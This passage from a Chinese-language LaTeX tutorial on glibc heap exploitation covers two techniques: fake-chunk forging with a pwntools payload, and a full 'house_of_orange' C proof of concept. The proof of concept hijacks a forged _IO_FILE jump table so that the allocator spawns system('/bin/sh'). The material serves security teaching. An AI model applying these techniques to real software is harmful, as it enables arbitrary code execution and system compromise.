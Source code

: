 具体的使用流程是，先在想要控制的地址上连续伪造\verb+ chunk+，由于堆的检查机制，我们需要连续伪造两个\verb+ chunk+，比如利用如下\verb+ Python+代码\footnote{Python代码中的函数为Python的漏洞利用框架pwntools中的函数，可访问官网：https://github.com/Gallopsled/pwntools}：
\begin{verbatim}
l32(0x0)+l32(41)+'AAAA'*8 +l32(0x0)+l32(41)
\end{verbatim}

然后，我们控制\verb+ free+的参数，指向我们伪造的\verb+ chunk+地址，如果我们此时再次\verb+ free+，就可以控制之前伪造\verb+ chunk+的内存了。

\subsection{house\_of\_orange}

\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner (char *ptr);
int main() {
    char *p1, *p2;
    size_t io_list_all, *top;

    p1 = malloc(0x400 - 0x10);

    top = (size_t *) ((char *) p1 + 0x400 - 0x10);
    top[1] = 0xc01;

    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;
    top[3] = io_list_all - 0x10;

    memcpy((char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;

    _IO_FILE *fp = (_IO_FILE *) top;
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8

    malloc(1);
    return 0;
}

int winner(char *ptr) {
    system(ptr);
    return 0;
}
\end{verbatim}

